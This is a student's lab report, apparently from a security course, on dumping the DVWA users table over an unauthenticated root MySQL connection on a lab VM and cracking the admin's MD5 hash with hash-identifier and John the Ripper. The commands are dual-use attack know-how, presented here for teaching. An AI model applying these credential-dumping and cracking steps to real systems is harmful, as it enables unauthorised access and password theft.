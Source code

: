 # Lab 2: Cracking Weak Password Hashes & Exploiting Poor Authentication

*Time Allocated: 3 Hours
Total Marks: 15* 

## OBJECTIVES
1. Find and exploit weak crypto in database login and password storage.

2. Do offline cracking of password hashes found in the database.

3. Learn from real-world crypto mistakes and suggest better ways.

4. Write a report in GitHub (Markdown) and show a short demo.

## LAB TASK
### 1. Service enumeration and initial access
I try to connect to the database using:

 ```bash 
 my sql -h 192.168.100.131
 ```
but it shows error ><

![alt text](error_mysql.png)

**WHY DOES THIS HAPPEN?**

This is because  MySQL Server  enforcing SSL/TLS, but the client and server disagree on the encryption protocol version.

**HOW TO FIX IT?**

we need to disabled SSL so we can make a connection. Use:

```bash
mysql -h 192.168.100.131 -u root --ssl=off
```
*by doing this we have disable SSL and bypasses the error but our credentials are not secured as it is not encrypted*

![alt text](conect-mysql.png)

### 2. USER ENUMERATION AND WEAK AUTHENTICATION

next step is to get the information about the database using:

```bash
show databases;
```
![alt text](show-databse.png)

*here we can see the dvwa which are vulnerable*

so we will be needing to look trough dvwa table using:

```bash 
use dvwa;
```

![alt text](use-dvwa.png)

we will need to list the table so use:

```bash
show tables;
```

![alt text](show-table.png)

*as we found user's database now we can use it*

try too look for passwords in users database using:

```bash
select * from users;
```

![alt text](users-database.png)

*From this output we can crack the password that we choose.In this case i choose admin's passwords which is:*

```bash
5f4dcc3b5aa765d61d8327deb882cf99
```



### 3. PASSWORD HASH DISCOVERY AND HASH IDENTIFICATION

we will be using hash-identifier tool to identify the hash. To open it using kali type :

```bash 
hash-identifier
```

![alt text](hash-identifier.png)


enter the hash and we will get the result !!

![alt text](result.png)



4. CRACK THE PASSWORD


create file hash.txt and paste the hash in it. Use :
```
echo "5f4dcc3b5aa765d61d8327deb882cf99">hash.txt  
```


![alt text](hash-txt.png)


Then we will need to crack it using john the reaper. Use:


```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

```


fnally now we can show the password using:

```
john --show --format=raw-md5 hash.txt 
```



![alt text](show-password.png)